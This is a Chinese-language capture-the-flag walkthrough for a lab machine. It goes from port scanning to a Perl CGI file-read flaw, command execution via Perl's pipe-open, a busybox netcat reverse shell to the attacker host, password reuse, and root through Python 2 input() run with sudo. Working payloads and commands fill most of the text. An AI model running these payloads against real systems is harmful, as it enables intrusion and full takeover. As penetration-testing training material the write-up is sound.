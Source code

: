 # **一、信息收集**

## **1. 主机发现与端口扫描**

首先在本地网络中使用 `arp-scan` 发现目标主机IP，随后利用 `nmap` 对其进行全端口扫描，以识别开放的服务。

**主机发现:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l       
...
192.168.205.139 08:00:27:82:44:3a       PCS Systemtechnik GmbH
...
```

**端口扫描:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.139
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```

扫描结果表明，目标主机IP为 `192.168.205.139`，开放了 **22 (SSH)** 和 **80 (HTTP)** 端口。

## **2. Web服务侦察**

访问80端口，发现是一个关于Perl语言的静态页面。查看页面源代码，在其中发现一条关键线索。

```html
...
<div><!-- cgi --></div>
...
```

HTML注释中出现的 `cgi` 强烈暗示Web服务上可能存在CGI脚本，这通常是Web应用的一个重要攻击面。

# **二、漏洞发现与初始访问**

## **1. CGI目录与文件扫描**

根据上一步的线索，我们重点对CGI相关目录进行扫描。使用 `gobuster` 对 `/cgi-bin/` 目录进行深度扫描，成功发现一个可疑的CGI脚本。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ gobuster dir -u http://192.168.205.139/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x cgi,pl -t 64
...
/file.cgi             (Status: 200) [Size: 22]
...
```

扫描找到了 `file.cgi` 文件，这是我们的主要突破口。

## **2. LFI 到 RCE (Perl `open` 函数漏洞)**

对发现的 `file.cgi` 进行参数模糊测试，发现一个 `file` 参数存在本地文件包含 (LFI) 漏洞。

**验证LFI漏洞:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl '192.168.205.139/cgi-bin/file.cgi?file=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
sunset:x:1001:1001:,,,:/home/sunset:/bin/bash
```

成功读取 `/etc/passwd` 文件。利用此漏洞读取 `file.cgi` 自身的源代码。

**源码审计:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl '192.168.205.139/cgi-bin/file.cgi?file=file.cgi'   
#!/usr/bin/perl
use CGI;
print CGI::header();
my $input = CGI::param('file');
if($input) {
    open(FILE, $input);
    print while <FILE>;
    close(FILE);
}
else {
    print "Missing file parameter";
}
```

源码的核心问题在于 `open(FILE, $input);`。在Perl中，这种双参数的 `open` 函数非常危险。当传递的参数以管道符 `|` 结尾时，Perl会将其后的字符串作为命令来执行。这使我们能够将LFI漏洞直接升级为远程代码执行 (RCE) 漏洞。

## **3. 获取 www-data Shell**

**验证RCE漏洞:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl '192.168.205.139/cgi-bin/file.cgi?file=id|'     
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

成功执行 `id` 命令。接下来，构造反弹Shell的Payload，在本地开启监听，成功获取 `www-data` 用户的交互式Shell。

**本地监听:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
```

**构造并执行Payload:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl '192.168.205.139/cgi-bin/file.cgi?file=busybox+nc+192.168.205.128+8888+-e+/bin/bash|'
```

**获取Shell并稳定TTY:**

```bash
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.139] 37298
# 使用 script 稳定Shell
script /dev/null -c bash
# 使用 Ctrl+Z 将其置于后台，然后使用 stty 修复终端
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 24 columns 80
```

# **三、权限提升**

## **1. www-data -> sunset**

在获取 `www-data` 权限后，对系统进行信息搜集。在 `/opt` 目录下发现一个可疑的Perl脚本 `password.pl`。

```bash
www-data@Per1:/opt$ ls -al
...
-rwxr-xr-x  1 sunset sunset  893 Aug  8 09:07 password.pl
```

该脚本属于 `sunset` 用户。执行此脚本，得到一个字符串。

```bash
www-data@Per1:/opt$ perl password.pl 
dylan4
```

这很可能是 `sunset` 用户的密码。使用 `su` 命令和该密码进行尝试。

```bash
www-data@Per1:/opt$ su sunset
Password: dylan4
sunset@Per1:/opt$ id
uid=1001(sunset) gid=1001(sunset) groups=1001(sunset)
```

成功切换到 `sunset` 用户。在此用户家目录下找到第一个flag。

```bash
sunset@Per1:/opt$ cat /home/sunset/user.txt
flag{user-5b5b8e9b01ef27a1cc0a2d5fa87d7190}
```

## **2. sunset -> root **

获取 `sunset` 权限后，立刻检查其 `sudo` 权限。

```bash
sunset@Per1:/opt$ sudo -l
...
User sunset may run the following commands on Per1:
    (ALL) NOPASSWD: /usr/bin/python /usr/bin/guess_game.py
```

`sunset` 用户可以免密以 `root` 权限运行 `/usr/bin/guess_game.py` 脚本。查看该脚本源码。

```bash
sunset@Per1:/opt$ cat /usr/bin/guess_game.py
import random

def guess_game():
    ...
    try:
        user_input = input("Your guess: ")  
    except Exception as e:
        print "Error:", e
        return
    ...
```

此脚本使用 `python` (即Python 2) 执行，并且在代码中使用了极其危险的 `input()` 函数。在Python 2中，`input()` 会将用户的输入当作Python代码来执行。因此，我们可以输入一段能够启动shell的Python代码，该代码将以 `root` 权限执行。

**构造并执行提权Payload:**

```bash
sunset@Per1:/opt$ sudo /usr/bin/python /usr/bin/guess_game.py
Welcome to the guess game!
I've chosen a number between 0 and 65535.
Your guess: __import__('os').system('/bin/bash')
```

输入Payload后，成功获取 `root` 权限的shell。

**获取最终Flag:**

```bash
root@Per1:/opt# id
uid=0(root) gid=0(root) groups=0(root)
root@Per1:/opt# cat /root/root.txt /home/sunset/user.txt 
flag{root-c27679de03aba03c5a33159aef11f8ea}
flag{user-5b5b8e9b01ef27a1cc0a2d5fa87d7190}
```

至此，靶机完全攻破。